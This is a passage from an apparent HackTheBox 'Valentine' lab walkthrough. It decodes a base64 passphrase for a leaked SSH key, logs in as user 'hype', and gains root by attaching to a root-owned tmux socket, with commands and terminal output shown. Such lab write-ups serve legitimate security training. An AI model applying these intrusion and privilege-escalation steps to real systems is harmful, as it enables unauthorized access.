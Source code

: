 ```
```

Among other useless data we find this string
```$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==```

Decoding the string
```
┌──(kali㉿kali)-[~/Downloads/hackthebox/valentine]
└─$ echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d
heartbleedbelievethehype
```
Well looks like this is the passphrase for the rsa private key

## SSH

Now the only thing we need is a username 
After trying some common usernames with no result I visited the rsa key file and well the name of the file ```hype_key``` gave me an idea to try ```hype``` as the username

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/valentine]
└─$ ssh -i id_rsa hype@10.10.10.79                                         255 ⨯
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ whoami
hype
hype@Valentine:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
hype@Valentine:~$ locate user.txt
/home/hype/Desktop/user.txt
/usr/share/doc/fontconfig/fontconfig-user.txt.gz
hype@Valentine:~$ cd Desktop
hype@Valentine:~/Desktop$ ls
user.txt
```

And we are able to retrive the user flag

## USER --> ROOT

I ran linpeas to check for privelge escalation vulnerbilities

```
root       1020  0.0  0.1  26416  1676 ?        Ss   Aug05   0:10 /usr/bin/tmux -S /.devs/dev_sess
```
This is what we find and well let's use this command

```
hype@Valentine:~/Desktop$ /usr/bin/tmux -S /.devs/dev_sess
```
And it worked

```
root@Valentine:/home/hype/Desktop# whoami
root
root@Valentine:/home/hype/Desktop# cd /root
root@Valentine:~# ls
curl.sh  root.txt
root@Valentine:~# cat root.txt
```